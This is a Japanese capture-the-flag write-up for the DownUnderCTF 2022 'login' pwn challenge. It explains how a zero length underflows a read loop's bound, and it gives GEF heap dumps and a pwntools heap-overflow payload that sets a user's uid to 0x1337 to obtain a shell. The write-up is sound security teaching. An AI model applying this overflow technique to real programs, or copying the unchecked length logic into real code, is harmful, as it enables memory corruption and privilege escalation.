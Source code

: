 # login - DownUnderCTF2022

この問題はuidが0x1337であるユーザーにシェルが与えられるので、
0x1337を持つユーザーを作成することが目的。

## 解法
`length`が0のとき、以下の制約を回避しながら
```c
if(len > USERNAME_LEN) {
    puts("Length too large!");
    exit(1);
}
```

`read_n_delimited`関数のwhileの条件が`i <= -1`になるので、
たくさん読み込むことができます。
```c
while(i <= n - 1) {
    if(read(0, &c, 1) != 1) {
        break;
    }
```

`top chunk`のアドレスを確認したあと、
その周辺の様子を確認すると、以下のようになっているので、
HeapOverflowで`uid`に相当する場所を書き換えます。

```
gef> heap chunks
Chunk(addr=0x555555559010, size=0x290, flags=PREV_INUSE)
    [0x0000555555559010    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................]
Chunk(addr=0x5555555592a0, size=0x20, flags=PREV_INUSE)
    [0x00005555555592a0    38 13 00 00 41 41 41 41 00 00 00 00 00 00 00 00   8...AAAA........]
Chunk(addr=0x5555555592c0, size=0x20d50, flags=PREV_INUSE)  <-  top chunk
```

```
gef> x/10xg 0x5555555592c0-0x40
0x555555559280: 0x0000000000000000      0x0000000000000000
0x555555559290: 0x0000000000000000      0x0000000000000021
0x5555555592a0: 0x4141414100001338      0x0000000000000000
0x5555555592b0: 0x0000000000000000      0x0000000000020d51
0x5555555592c0: 0x0000000000000000      0x0000000000000000
```

top chunkの値(0x20d51)を壊さないようなpayloadを作成します。
```python
def add_user(length: bytes, name: bytes):
    io.sendlineafter("> ", "1")
    io.sendlineafter("length: ", length)
    io.sendlineafter("Username: ", name)

def login(name: bytes):
    io.sendlineafter("> ", "2")
    io.sendlineafter("Username: ", name)

add_user(b"0", b"AAAA" + p64(0)*2 +p64(0x20d50) + p64(0x1337))
add_user(b"7", b"yu1hpa")
login(b"yu1hpa")
```

そうすると、以下のように成功します。
```
gef> x/16xg 0x5555555592c0-0x40
0x555555559280: 0x0000000000000000      0x0000000000000000
0x555555559290: 0x0000000000000000      0x0000000000000021
0x5555555592a0: 0x4141414100001338      0x0000000000000000
0x5555555592b0: 0x0000000000000000      0x0000000000000021
0x5555555592c0: 0x6831757900001337      0x0000000000006170
0x5555555592d0: 0x0000000000000000      0x0000000000020d31
0x5555555592e0: 0x0000000000000000      0x0000000000000000
0x5555555592f0: 0x0000000000000000      0x0000000000000000
```


